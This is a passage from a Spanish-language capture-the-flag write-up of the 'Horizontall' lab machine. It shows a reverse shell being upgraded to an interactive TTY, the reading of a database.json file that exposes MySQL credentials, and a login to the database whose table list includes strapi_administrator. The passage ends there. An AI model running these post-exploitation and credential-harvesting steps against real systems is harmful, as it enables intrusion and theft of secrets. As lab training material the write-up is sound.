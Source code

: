 Al obtener la reverse shell, mejoramos la calidad de la shell con los siguientes pasos para obtener una TTY interactiva.

```bash
$ script /dev/null -c bash
Script started, file is /dev/null
strapi@horizontall:~/myapi$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
strapi@horizontall:~/myapi$ export TERM=xterm
strapi@horizontall:~/myapi$ export SHELL=bash
strapi@horizontall:~/myapi$ stty rows 46 columns 230
```

## Privilege Escalation

### Information Leakage

Realizando una enumeración del directorio donde nos encontramos, verificamos de la existencia de un archivo `database.json`el cual contiene las credenciales de acceso a la base de datos `strapi` de `MySQL`.

```bash
strapi@horizontall:~/myapi/config/environments/development$ cat database.json 
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```

Nos conectaremos a través de las credenciales obtenidas, verificaremos las tablas presentes de la base de datos `strapi`. Entre las tablas enumeradas, nos encontramos una tabla llamada `strapi_administrator`.

```bash
strapi@horizontall:~/myapi/config/environments/development$ mysql -h localhost -e "show tables;" -u developer -p strapi
Enter password: 
+------------------------------+
| Tables_in_strapi             |
+------------------------------+
| core_store                   |
| reviews                      |
| strapi_administrator         |
| upload_file                  |
| upload_file_morph            |
| users-permissions_permission |
| users-permissions_role       |
| users-permissions_user       |
+------------------------------+
```
